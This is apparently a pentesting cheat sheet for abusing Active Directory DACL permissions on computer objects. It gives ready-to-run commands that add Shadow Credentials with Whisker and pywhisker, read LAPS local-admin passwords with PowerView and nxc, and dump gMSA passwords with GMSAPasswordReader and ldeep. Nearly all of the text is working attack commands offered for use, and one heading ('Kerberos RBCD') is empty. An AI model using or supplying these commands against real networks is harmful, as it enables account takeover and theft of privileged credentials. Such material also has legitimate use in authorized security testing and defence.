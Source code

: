 # DACL Attacks on a Computer

## 1) WriteProperty

### Shadow Credentials

    Whisker.exe add /target:<target> /domain:domain.local /dc:dc.domain.local /path:C:\path\to\file.pfx /password:Password123!

# Linux

    pywhisker.py -t computer$ -a add -u user1 -p password -d domain.local -dc-ip <DC_IP> --filename user2

### Kerberos RBCD

## 2) AllExtendedRights

### ReadLAPSPassword

#####  With PowerView

    Get-DomainComputer <target>.domain.local -Properties ms-mcs-AdmPwd,displayname,ms-mcs-AdmPwdExpirationTime

### ReadGMSAPassword

    ./GMSAPasswordReader.exe --accountname gmsaAccount

# Linux

    nxc ldap <DC_IP> -u user1 -p password -M laps -o computer="<target>"

    ldeep ldap -u user1 -p password -d domain.local -s <LDAP_server_IP> gmsa

